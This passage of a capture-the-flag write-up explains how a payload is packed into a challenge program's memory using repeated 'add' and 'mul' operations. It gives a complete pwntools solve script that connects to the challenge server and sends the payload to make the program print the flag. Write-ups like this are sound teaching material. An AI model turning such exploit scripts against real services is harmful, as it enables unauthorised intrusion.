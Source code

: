 Some significant changes made here are:
- Everything is now right before 2504 for resons explained previously.
- The `add eip ...` is replaced with `jmp 2439` due to its shorter length; `arg2` and `arg3` need not be overwritten because they are ignored in `jmp`.
- The single null byte at 2503 is so that after the flag is printed, the program would exit instead of going in an infinite loop.[^3] The three null bytes after `"flag"` are also to pad everything so that the payload has length a multiple of 4.[^4]

Now, we can first multiply by `0xffffffff` 580 times to get a 2320 byte string that ends in `"\x00\x00\x00\x01"`. If we add `"flaf"`, we will get the string `"flag"` at index 2320 + 116 - 4 = 2432, which is exactly what we want. After that, we can just do what we did previously, and add the rest of the payload 7 nibbles at a time. The final solve script looks like this:

```py
from pwn import *
p = remote("kek.cx", 6969)
ops = 0

def add(x):
    global ops
    ops += 1
    p.sendline(b"add ")
    p.sendline(x)

def mul(x):
    global ops
    ops += 1
    p.sendline(b"mul ")
    p.sendline(x)

for i in range(580):
    mul(b"\xff\xff\xff\xff")
add(b"flaf")

def send(x):
    assert len(x) == 7
    x = bytes.fromhex("0"+x)
    mul(b"\x10\x00\x00\x00")
    if x != b'\x00\x00\x00\x00':
        add(x)

payload = """0000000
0000001
0065637
8000000
0000000
9800000
00dd000
0000200
6563780
0657369
0000000
f006573
6900000
0000000
0000000
000dd00
0000000
0656469
0000000
0000000
000c000""".splitlines()

for l in payload:
    send(l)
```

[^1]: the notation is a bit messy because \(a\) is the variable and \(x_i\) are constants, but eh
[^2]: i contemplated letting `"flag\x00"` stay at the front but couldnt find a thing to multiply by that fits in 4 bytes and would make the prefix `"flag\x00"`, so i gave up and just moved it to the back too
[^3]: although the program still crashes because its trying to get a string at too large an index in memory, at least its not an infinite loop anymore
[^4]: you can actually choose how many nibbles you want to put between `"flag"` and the rest of the payload, as long as you pad it out to be a multiple of 4 bytes before index 2504. i tested all possible combinations and it turns out `"flag\x00\x00"` and `"flag\x00\x00\x00"` work the best because they align the nibbles just right so that there are more `0000000`s that are sent, minimising the number of `add`s
[^5]: it also doesnt give enough precision, which is annoying
[^6]: funnily enough a week before the ctf i was thinking of updating sage but decided against it because i thought there wouldn't be any major changes since theyre both version 10.x
[^7]: a side effect of running this is that a LOT of things no longer work and you get a lot of `KeyError: 'unknown symbol table entry'`, because number equality is checked for most things in Python and if you flip a `True` result to a `False` when the interpreter is trying to determine what an object is it's basically like it doesn't exist anymore